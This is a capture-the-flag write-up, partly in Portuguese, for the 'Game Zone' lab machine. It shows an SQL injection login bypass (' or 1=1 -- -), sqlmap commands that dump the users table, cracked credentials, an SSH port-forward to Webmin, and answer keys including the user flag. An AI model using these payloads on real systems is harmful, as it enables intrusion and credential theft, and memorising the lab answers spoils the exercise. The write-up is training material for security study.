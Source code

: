 # gamezone

# TASK 1 - Deploy the vulnerable machine

What is the name of the large cartoon avatar holding a sniper on the forum?
R: Agent 47

nmap -sC -sV 10.10.138.171

![image](https://github.com/yanfernandess/gamezone/assets/100174458/ff14a15b-5083-4c7b-8477-422c389aa6c0)

# TASK 2 -  Obtain access via SQLi

Log in: ' or 1=1 -- -
Password:

![image](https://github.com/yanfernandess/gamezone/assets/100174458/9b1ab06e-9f2f-4498-b9aa-2e0fca682d61)

When you've logged in, what page do you get redirected to?
R: portal.php

![image](https://github.com/yanfernandess/gamezone/assets/100174458/86b0560e-c2a6-4d29-b7dc-dd067d5c1232)

# TASK 3 - Using SQLMap

Salvar o código fonte que aparece no BURP SUITE da página logo após inserir alguma informação no input em um arquivo txt, vamos usar isso logo em seguida.

sqlmap -r request.txt --current-db
![image](https://github.com/yanfernandess/gamezone/assets/100174458/e0590bd6-1677-4274-a095-f79b125ed9f7)

Descobrimos que temos um banco de dados chamado 'db'

sqlmap -r request.txt -D db --tables

![image](https://github.com/yanfernandess/gamezone/assets/100174458/10fe000e-346e-499d-96f2-3b2ab7c228ec)

Temos duas tabelas dentro do banco de dados, vamos explorar elas.

sqlmap -r request.txt -D db users --dump

In the users table, what is the hashed password?
R: ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

What was the username associated with the hashed password?
R: agent47

What was the other table name?
R: post

# TASK 4 - Cracking a password with JohnTheRipper

Ele esta pedindo para descriptografar com o JohnTheRipper mas utilizei uma ferramenta online para fazer isso, segue o link abaixo:

https://www.dcode.fr/

![image](https://github.com/yanfernandess/gamezone/assets/100174458/27c46287-82b9-4cde-96aa-4c7ec7ee35f5)

Conseguimos acesso SSH com o login e a senha que acabamos de descriptografar.

![image](https://github.com/yanfernandess/gamezone/assets/100174458/09cf8537-da10-4d64-9c79-20b52316b187)

E conseguimos a primeira flag.

What is the de-hashed password?
R: videogamer124


Now you have a password and username. Try SSH'ing onto the machine.

What is the user flag?
R: 649ac17b1480ac13ef1e4fa579dac95c

# TASK 5 - Exposing services with reverse SSH tunnels

ssh -L 10000:localhost:10000 agent47@10.10.138.171

![image](https://github.com/yanfernandess/gamezone/assets/100174458/338a6a7d-f737-4dfe-8f56-bcf1331c7e52)

Fiz o Login com a credencial descoberta e descobri que se trata de um webmin da versão 1.580.

![image](https://github.com/yanfernandess/gamezone/assets/100174458/45a7648c-0ecd-4bcb-bdf3-6277cf8ea382)

How many TCP sockets are running?
R: 5

What is the name of the exposed CMS?
R: Webmin

What is the CMS version?
R: 1.580

# TASK 6 - Privilege Escalation with Metasploit

Fiz uma pesquisa com searchsploit e descobri que conseguimos acesso através do Metasploitable para conseguir a flag root.txt.

![image](https://github.com/yanfernandess/gamezone/assets/100174458/6b8219e3-6f47-46a9-b12d-d1e974f1cdab)



